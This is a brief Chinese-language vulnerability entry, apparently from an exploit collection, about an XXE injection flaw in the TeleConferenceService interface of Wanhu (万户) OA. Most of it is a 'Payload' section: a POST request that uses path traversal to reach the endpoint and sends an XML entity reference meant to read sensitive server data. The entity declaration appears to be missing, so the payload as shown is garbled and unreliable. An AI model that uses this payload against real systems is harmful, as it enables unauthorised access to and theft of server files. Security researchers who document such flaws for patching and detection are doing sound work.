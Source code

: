 **漏洞描述：**

万户OA TeleConferenceService接口存在XXE注入漏洞，攻击者通过漏洞可以继续XXE注入获取服务器敏感信息。

**影响版本：**

万户OA

**Payload：**

```html
POST /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../TeleConferenceService

<?xml version="1.0" encoding="UTF-8" ?>
]>
<value>&xxe;</value>
```

---
